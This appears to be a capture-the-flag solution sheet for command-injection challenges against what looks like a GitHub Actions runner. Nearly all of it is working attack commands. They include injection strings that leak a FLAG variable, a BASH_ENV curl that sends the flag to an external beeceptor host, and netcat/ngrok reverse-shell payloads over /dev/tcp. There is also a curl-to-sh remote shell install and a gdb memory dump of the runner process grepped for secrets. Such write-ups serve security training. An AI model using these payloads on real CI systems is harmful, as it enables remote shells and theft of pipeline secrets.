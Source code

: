 # Chall 1
 
```

Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi

```
 
# Chall 2 & 3
 
[Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
 
[Beeceptor](https://beeceptor.com/)
 
[Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
 
```

Not a release :(

BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base64))

```
 
# Chall 4
 
## Setup (client side)
 
### Listen with NC

```

nc -lv 4444

```
 
### Setup ngrok
 
```

ngrok tcp 4444

```
 
### Get ngrok IP to build payload
 
```

dig <NGROK_DNS>

```
 
## Payload
 
```

$(bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1)

```
 
## Fancy shell for lazy DevOps :)
 
```

curl -sSf https://sshx.io/get | sh -s run

```
 
## Let's investigate!
 
The directory `/home/runner/work/_temp` look interesting...
 
# Chall 5
 
### Listen with NC

```

nc -lv 4444

```
 
### Setup ngrok
 
```

ngrok tcp 4444

```
 
### Get ngrok IP to build payload
 
```

dig <NGROK_DNS>

```
 
## Payload
 
```

; bash -i >& /dev/tcp/<NGROK_IP>/<NGROK_PORT> 0>&1

```
 
## Fancy shell for lazy DevOps :)
 
```

curl -sSf https://sshx.io/get | sh -s run

```
 
## Let's dump!
 
### Let's check those secrets
 
```

sudo apt-get install -y gdb; sudo gcore -o k.dump "$(ps ax | grep 'Runner.Listener' | head -n 1 | awk '{print $1}')"; grep -Eao '"[^"]+":\{"value":"[^"]*","isSecret":true\}' k.dump*

```

 
